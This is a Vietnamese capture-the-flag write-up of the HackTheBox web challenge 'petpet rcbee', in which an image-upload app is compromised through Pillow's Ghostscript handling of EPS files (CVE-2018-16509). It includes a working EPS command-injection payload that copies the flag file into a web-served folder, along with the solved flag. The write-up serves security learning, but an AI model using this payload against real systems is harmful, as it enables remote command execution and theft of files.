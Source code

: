 # petpet rcbee


## Tóm tắt

Bài này tiếp tục là một bài Whitebox.&#x20;

Lỗi đến từ việc sử dụng thư viện có lỗ hổng ở đây là Pillow.

## Walkthrough

Nói sơ qua về Web thì đây là một Web cho phép upload ảnh là tập hợp chúng lại thành một ảnh Gif


![image (9).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606580088/XLrYkJPUH.png)

Xem qua một chút source thì có duy nhất một API cho phép upload


![image (11).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606590117/iuM91d4SJ.png)

Lúc đầu mình có dự đoán là lỗ hổng xảy ra do việc upload file nhưng source sử dụng các hàm khá an toàn.&#x20;

```python
ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

generate = lambda x: os.urandom(x).hex()

def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def save_tmp(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, secure_filename(file.filename))
    file.save(path)
    return path
```

Vậy cuối cùng phải tìm các hàm khác gây lỗi, và mình tìm được bài sau về [lỗ hổng RCE của Pillow liên quan tới GhostScript](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509). Lỗ hổng ngày bắt nguồn từ việc Pillow sử dụng GhostScript để xử lý các file liên quan tới EPS.&#x20;

```python
# Build Ghostscript command
    command = [
        "gs",
        "-q",  # quiet mode
        "-g%dx%d" % size,  # set output geometry (pixels)
        "-r%fx%f" % res,  # set input DPI (dots per inch)
        "-dBATCH",  # exit after processing
        "-dNOPAUSE",  # don't pause between pages
        "-dSAFER",  # safe mode
        "-sDEVICE=ppmraw",  # ppm driver
        "-sOutputFile=%s" % outfile,  # output file
        # adjust for image origin
        "-c",
        "%d %d translate" % (-bbox[0], -bbox[1]),
        "-f",
        infile,  # input file
        # showpage (see https://bugs.ghostscript.com/show_bug.cgi?id=698272)
        "-c",
        "showpage",
    ]

    ...

    # push data through Ghostscript
    try:
        startupinfo = None
        if sys.platform.startswith("win"):
            startupinfo = subprocess.STARTUPINFO()
            startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
        subprocess.check_call(command, startupinfo=startupinfo)
        im = Image.open(outfile)
        im.load()
    finally:
        ...
```

Và GhostScript tồn lại[ lỗ hổng Command Injection](https://seclists.org/oss-sec/2018/q3/142). Tuy việc Web đã filter extension đầu vào rồi tuy nhiên Pillow tự động xác định filetype của EPS thông quan header ví dụ như `!PS-Adobe-3.0 EPSF-3.0`Do đó, việc upload  và xử lý thông qua Pillow có thể dấn đến Command Injection.

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Và bài viết phía trên cung cấp luôn PoC rồi nên mình sử dụng luôn. Để đơn giản nên mình Exfiltration thông qua folder static luôn. PoC sẽ như sau

```python
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static) currentdevice putdeviceprops
```

Và lấy flag xuống thôi :v

```python
>> curl http://188.166.173.208:30218/static/flag                    
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}% 
```
